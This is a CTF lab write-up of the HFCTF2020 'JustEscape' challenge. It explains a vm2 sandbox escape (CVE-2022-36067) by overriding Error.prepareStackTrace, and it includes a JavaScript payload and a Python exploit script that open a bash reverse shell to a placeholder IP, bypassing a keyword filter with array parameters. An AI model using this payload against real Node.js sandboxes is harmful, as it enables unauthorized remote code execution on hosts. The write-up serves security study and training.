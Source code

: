# [HFCTF2020]JustEscape
![](<./img/Pasted image 20230203085920.png>)

![](<./img/Pasted image 20230203090337.png>)

```
/run.php?code=phpinfo();
```

```
ReferenceError: phpinfo is not defined
```

![](<./img/Pasted image 20230203090553.png>)

```
/run.php?code=new Error().stack
```

![](<./img/Pasted image 20230203090731.png>)

[GHSA-mrgp-mrhc-5jrq](https://github.com/patriksimek/vm2/security/advisories/GHSA-mrgp-mrhc-5jrq)

> vm2 is a sandbox that can run untrusted code with whitelisted Node's built-in modules. In versions prior to version 3.9.11, a threat actor can bypass the sandbox protections to gain remote code execution rights on the host running the sandbox. This vulnerability was patched in the release of version 3.9.11 of vm2. There are no known workarounds.

参考 [Enter "Sandbreak" - Vulnerability In vm2 Sandbox Module Enables Remote Code Execution (CVE-2022-36067)](https://web.archive.org/web/20231001013710/https://www.oxeye.io/resources/vm2-sandbreak-vulnerability-cve-2022-36067)

```javascript
globalThis.OldError = globalThis.Error;
globalThis.Error = {};
globalThis.Error.prepareStackTrace = function (errStr, traces) {
    traces[0].getThis().process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');
}
const {stack} = new globalThis.OldError();
```

通过替换大法让虚假的`prepareStackTrace`得到执行

![](<./img/Pasted image 20230203100235.png>)

题目存在关键词过滤，通过传递参数数组绕过

# exp

```python
import requests
from urllib.request import quote

url = 'http://xxx.node4.buuoj.cn:81/run.php?code[]={}'

payload = '''globalThis.OldError = globalThis.Error;
globalThis.Error = {};
globalThis.Error.prepareStackTrace = function (errStr, traces) {
    traces[0].getThis().process.mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/2333 0>&1"');
}
const {stack} = new globalThis.OldError();'''

requests.get(url.format(quote(payload)))
```

![](<./img/Pasted image 20230203101146.png>)

#Web #nodejs #js #vm2 #Vulnerabilities #escape #RCE #反弹shell 
